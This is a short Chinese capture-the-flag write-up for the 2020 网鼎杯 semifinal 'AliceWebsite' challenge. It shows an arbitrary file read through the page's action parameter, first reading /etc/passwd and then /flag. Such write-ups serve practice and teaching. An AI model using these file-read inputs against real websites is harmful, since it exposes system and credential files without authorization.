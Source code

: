 ```yaml
---
title: '[网鼎杯 2020 半决赛]AliceWebsite'
date: 2024-06-20 16:40:06
tags: 题解
categories: 刷题笔记
---
```


### [网鼎杯 2020 半决赛]AliceWebsite（任意文件读取）

打开页面，我们在url里发现一个

```
?action=home.php
```

![image-20240620190834127](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201908247.png)

我们猜测为任意文件读取，我们输入

<!--more-->

```
/etc/passwd
```

![image-20240620191039316](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201910442.png)

有输出，我们直接读取flag

```
?action=/flag
```

![image-20240620191106338](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406201911391.png)
